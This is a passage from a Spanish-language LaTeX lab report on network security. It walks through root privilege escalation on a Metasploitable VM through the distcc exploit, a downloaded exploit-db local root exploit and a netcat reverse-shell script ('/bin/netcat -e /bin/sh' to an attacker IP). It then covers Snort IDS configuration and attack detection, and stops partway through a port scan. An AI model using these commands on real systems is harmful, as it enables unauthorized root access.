    \subfigure[Posterior intento de acceso]
    {
\includegraphics[width=0.7\textwidth]{./images/MetaDe2.png}}
    \caption{Denegación de servicio ftp a la víctima desde el atacante.}
    \label{fig:metade1}
    \end{figure}

\end{enumerate}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Elevación de privilegios
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\clearpage
\subsection{Elevación de privilegios}

La elevación de privilegios es la técnica consistente en conseguir permisos por encima de los que han sido asignados en primera instancia. \\

En este caso, vamos a realizar una elevación de privilegios a través de una vulnerabilidad del servicio Distcc.

\begin{enumerate}
	\item Accedemos a la consola de Metasploit.
\begin{verbatim}
$ sudo msfconsole
\end{verbatim}

	\item Accedemos al módulo relativo a distcc.
\begin{verbatim}
msf > search distcc
msf > use exploit/unix/misc/distcc_exec
\end{verbatim}

	\item Fijamos los parámetros del ataque y ejecutamos.
\begin{verbatim}
msf auxiliary(distcc_exec) > set RHOSTS metasploitable
msf auxiliary(distcc_exec) > exploit
\end{verbatim}

  \item Tal y como nos aparece en la figura \ref{fig:metaele1} hemos conseguido acceder a la víctima como demonio del servicio distcc.

  \begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\textwidth]{./images/MetaEle1.png}
  \caption{Elevación de privilegios: ejecución de distcc.}
  \label{fig:metaele1}
  \end{figure}

  \item Una vez como daemon descargamos y compilamos el exploit con el que vamos a proceder a hacer la elevación de privilegios. El código del exploit ejecuta el shell que se encuentra en /tmp/run y crea un socket al que se le indica el pid del proceso vulnerable.

\begin{verbatim}
wget http://www.exploit-db.com/download/8572
mv 8572. exploit.c
gcc -o exploit exploit.c
\end{verbatim}

  %%% Importar fichero
  \lstinputlisting[breaklines]{doc/MetaEle.c}

  \item Antes de ejecutar el exploit.c, debemos abrir un puerto al cual se  conectará la victima al lanzar el exploit. Para ello, utilizaremos el comando netcat.

\begin{verbatim}
$ sudo netcat -vlp 6666
\end{verbatim}

  \item Creamos un script que permite generar una conexión desde la máquina víctima al puerto que está escuchando en la maquina atacante.

\begin{verbatim}
echo "#!/bin/bash" >> /tmp/run
echo "/bin/netcat -e /bin/sh 192.168.61.189 6666" >> /tmp
/run
\end{verbatim}

  \item A continuación identificamos el proceso “udevd”, pues usaremos su id-1 para ejecutar el exploit, como muestra la figura \label{fig:metaele2}.

  \begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{./images/MetaEle2.png}
  \caption{Elevación de privilegios: /tmp/run.}
  \label{fig:metaele2}
  \end{figure}

  \item Finalmente se realiza la conexión de la víctima al atacante y obtenemos la sesión de root, como se observa en la figura \label{fig:metaele3}.

  \begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{./images/MetaEle3.png}
  \caption{Elevación de privilegios: obtención de root.}
  \label{fig:metaele3}
  \end{figure}


\end{enumerate}

%%%%%%%%%% Snort
\clearpage
\section{Snort}
\rhead[\thepage]{\thesection. Snort}

\subsection{Configuración}

El primer paso es instalar Snort en la máquina que hace de router entre las organizaciones.

\begin{verbatim}
  $ sudo apt-get install snort
\end{verbatim}

Como vemos en la imagen \ref{fig:snort1}, el establecimiento de un rango de IPs es determinante para el uso del servicio.

\begin{figure}[htbp]
\centering

\includegraphics[width=0.9\textwidth]{./images/SnortInstalacion.jpg}
\caption{Configuración de Snort durante la instalación.}
\label{fig:snort1}
\end{figure}

A continuación se configura el servicio, modificando el fichero \emph{/etc/snort/snort.conf} y estableciendo los siguientes parámetros:

\begin{itemize}
  \item ipvar HOME\_NET 192.168.N1.0/24
  \item ipvar EXTERNAL\_NET !\$HOME\_NET
  \item ipvar DNS\_SERVERS \$HOME\_NET
  \item ipvar SMTP\_SERVERS    \$HOME\_NET
  \item ipvar HTTP\_SERVERS    \$HOME\_NET
  \item ipvar SQL\_SERVERS     \$HOME\_NET
  \item ipvar TELNET\_SERVERS  \$HOME\_NET
  \item ipvar HTTP\_PORTS      80
  \item ipvar SHELLCODE\_PORTS !80
  \item ipvar ORACLE\_PORTS    1521
\end{itemize}

\subsection{Ejecución}

Además de las reglas que hay añadidas por defecto, para poder hacer pruebas concretas y observar el funcionamiento de Snort, añadimos la siguiente línea al fichero \emph{/etc/snort/rules/local.rules}, que establece una alerta cuando detecte mensajes ICMP.

\begin{verbatim}
  $ alert icmp any any -> $HOME_NET any (msg:"ICMP test";
  sid:10000001; rev:001)
\end{verbatim}

A continuación, lanzamos el servicio. En la figura \ref{fig:snort2} se observa el servicio iniciado.

\begin{verbatim}
  $ sudo snort -i enp0s8 -u snort -g snort -l /var/log/snort/
  -A full -c /etc/snort/snort.conf
\end{verbatim}

\begin{figure}[H]
\centering

\includegraphics[width=0.9\textwidth]{./images/SnortInicio.png}
\caption{Snort iniciado.}
\label{fig:snort2}
\end{figure}

Seguidamente, lanzamos un ping desde la máquina atacante hacia la organización que el router protege, como muestra la figura \ref{fig:snort3}).

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{./images/SnortPing.png}
\caption{Ping del atacante a la víctima.}
\label{fig:snort3}
\end{figure}

Si, tras el ping, accedemos a los archivos de log (imagen \ref{fig:snort4}), podemos ver cómo hay un acceso desde la máquina atacante.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/SnortPortLog.png}
\caption{Fichero portlog.scan tras ping.}
\label{fig:snort4}
\end{figure}

\subsection{Detección de ataques}

A continuación vamos a ejemplificar el procedimiento que el atacante sigue para llevar a cabo un ataque. Al mismo tiempo que se realiza, podemos ver los logs que detectan dicho ataque gracias a Snort.

\begin{enumerate}
  \item Escanear puertos en busca de un agujero por el que entrar. \\

  Tras ejecutar el comando nmap que se indica a continuación, se puede ver que son diversos los puertos que hay accesibles en la víctima. En este ejemplo, vamos a atacar el puerto 23, correspondiente a telnet.

  \begin{verbatim}
  $ npam -p 1-20000 192.168.62.189
  \end{verbatim}

  \begin{figure}[H]
  \centering
